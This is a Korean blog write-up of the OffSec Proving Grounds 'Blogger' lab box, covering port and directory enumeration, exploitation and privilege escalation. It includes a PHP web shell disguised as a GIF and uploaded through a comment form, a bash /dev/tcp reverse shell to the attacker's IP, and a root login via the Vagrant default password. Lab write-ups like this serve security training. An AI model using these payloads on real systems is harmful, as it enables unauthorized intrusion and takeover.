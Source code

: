 ```yaml
---
title: "Blogger Writeup"
date: 2025-09-03T00:00:00+09:00
# weight: 1
# aliases: ["/first"]
tags: ["pen-testing", "hacking"]
author: "Me"
categories: ["Penetration Testing"]
# author: ["Me", "You"] # multiple authors

showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: true
description: "Offsec PGP lab Blogger Writeup"
# canonicalURL: "https://canonical.url/to/page"
disableHLJS: true # to disable highlightjs
disableShare: false
disableHLJS: false
hideSummary: false
searchHidden: false
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowWordCount: true
ShowRssButtonInSectionTermList: true
UseHugoToc: true
cover:
    image: "posts/cover/offsec.png" # image path/url
    alt: "cover-image"

editPost:
    URL: "https://github.com/hynseok/blog/blob/main/content"
    Text: "Suggest Changes" # edit text
    appendFilePath: true # to append file path to Edit link
---
```



## Enumeration
### Nmap
command
``` shell
sudo nmap -p- target
```

result
```
Nmap scan report for target (192.168.138.217)
Host is up (0.099s latency).
Not shown: 65512 closed tcp ports (reset)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http
165/tcp   filtered xns-courier
3419/tcp  filtered softaudit
4852/tcp  filtered unknown
6717/tcp  filtered unknown
7811/tcp  filtered unknown
13716/tcp filtered netbackup
17741/tcp filtered unknown
26603/tcp filtered unknown
27064/tcp filtered unknown
28007/tcp filtered unknown
31615/tcp filtered unknown
32895/tcp filtered unknown
35304/tcp filtered unknown
37064/tcp filtered unknown
42017/tcp filtered unknown
42225/tcp filtered unknown
44837/tcp filtered unknown
52074/tcp filtered unknown
56306/tcp filtered unknown
59791/tcp filtered unknown
61590/tcp filtered unknown
```

### Gobuster

command
```shell
gobuster dir -u http://target -w /usr/share/wordlists/dirb/common.txt -z
```

result
```
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 271]
/.hta                 (Status: 403) [Size: 271]
/.htaccess            (Status: 403) [Size: 271]
/assets               (Status: 301) [Size: 301] [--> http://target/assets/]
/css                  (Status: 301) [Size: 298] [--> http://target/css/]
/images               (Status: 301) [Size: 301] [--> http://target/images/]
/index.html           (Status: 200) [Size: 46199]
/js                   (Status: 301) [Size: 297] [--> http://target/js/]
/server-status        (Status: 403) [Size: 271]
===============================================================
Finished
===============================================================
```
* assets 디렉토리가 공개되어 있습니다.
![alt text](images/blogger/blogger-img1.png)
* blog 경로에서 블로그 페이지로의 접근이 가능했습니다.

``` shell
# /etc/hosts

# Target Boxes
192.168.138.217 blogger.pg
```
* 페이지들에서 절대경로로 위 주소가 지정되어 있기에 편의를 위해 `hosts`파일을 수정합니다.

## Exploitation

* 블로그 내의 댓글 기능에서 파일을 업로드할 수 있습니다.
``` 
GIF89a;
<?php
echo "<pre>";
passthru($_GET['cmd']);
echo "</pre>";
?>
```
* Burp를 통해 파일을 위 페이로드로 변조하여 업로드합니다.

```
http://blogger.pg/assets/fonts/blog/wp-content/uploads/2025/09/a.gif-1756801043.6129.php?cmd={command}
```
* 위 url을 통해서 커맨드를 실행할 수 있습니다.

```shell
nc -nvlp 4444
```
```
http://blogger.pg/assets/fonts/blog/wp-content/uploads/2025/09/a.gif-1756801043.6129.php?cmd=bash%20-c%20%27bash%20-i%20>%26%20%2Fdev%2Ftcp%2F192.168.45.214%2F4444%200>%261%27

# url encoded된 명령어의 원본
bash -c 'bash -i >& /dev/tcp/192.168.45.214/4444 0>&1'
```
* netcat을 통해 reverse shell을 얻어냅니다.

```
/usr/bin/script -qc /bin/bash /dev/null
```
* reverse shell을 처음 얻어낸 상태에서는 shell세션이 없기 때문에 위 커맨드를 입력하여 새로운 bash 세션을 얻어냅니다.


## Privilege Escalation
### vagrant default password
- Vagrant는 가상화 소프트웨어(virtual box등)를 조작하기 위한 오픈소스 소프트웨어로 가상환경 내에서 유저를 가집니다.
- Vagrant의 default password는 `vagrant`입니다. 해당 유저로 로그인한 후 root권한을 얻어낼 수 있습니다.

``` shell
su vagrant
Password: vagrant

```
```shell
sudo su
```


### etc
linpeas
```
https://raw.githubusercontent.com/BRU1S3R/linpeas.sh/refs/heads/main/linpeas.sh
```
